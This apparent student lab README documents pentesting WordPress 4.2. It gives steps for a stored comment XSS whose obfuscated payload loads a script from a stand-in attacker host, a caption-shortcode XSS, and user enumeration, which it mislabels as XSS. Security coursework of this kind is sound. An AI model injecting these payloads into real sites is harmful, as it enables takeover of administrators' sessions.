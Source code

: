 # Week7CyberSecurity

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total
Started:  03:10pm 4/10/18 stopped at 10:00PM 4/10/18
Started:  01:50pm 4/11:18 stopped at 03:20PM 4/11/18

TOTAL TIME: 8 1/2 Hours

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Vulnerability 7945
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: REFER TO FirstExploit
  - [ ] Steps to recreate:
  I went to a location where I could leave a comment then pasted <a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
and I went to http://bytesizematters.com/ and typed out more than 64KB of the character "A", Then I copied it and pasted it 
into the Comment box afterwards I posted the comment. Sign into admin and viewed Network tab under developer tools for exploit
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress2.html)

1.  Vulnerability User Enumeration
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: Not Specified
  - [ ] GIF Walkthrough:  REFER TO SecondExploit
  - [ ] Steps to recreate: Whenever the attacker is at the login screen, they can time is and series of names and a password incoreect or not and Wordpress will state whether or not the user exists
  - [ ] Affected source code:
    - [Link 2](https://dev-notes.eu/2016/09/preventing-user-enumeration-in-wordpress/)

1. Vulnerability 8111
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: REFER TO ThirdExploit
  - [ ] Steps to recreate: Using an Author/Contributor level account paste <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a> in HTML edit mode in a post submit it and when the admin logs in and hovers over the link you her a pop up.
  - [ ] Affected source code:
    - [Link 3](https://klikki.fi/adv/wordpress3.html)

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Physically installing the application was a challenge. Next is using WordPress for the first time.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

